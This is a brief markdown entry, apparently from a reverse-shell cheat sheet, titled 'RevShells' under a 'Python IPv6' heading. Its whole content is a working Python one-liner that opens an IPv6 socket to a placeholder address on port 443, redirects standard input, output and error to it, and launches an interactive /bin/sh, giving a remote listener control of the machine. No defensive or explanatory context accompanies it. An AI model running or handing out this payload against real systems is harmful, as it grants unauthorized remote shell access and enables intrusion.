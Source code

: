 # RevShells

## Python IPv6

```null
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:4::1000",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);';
```

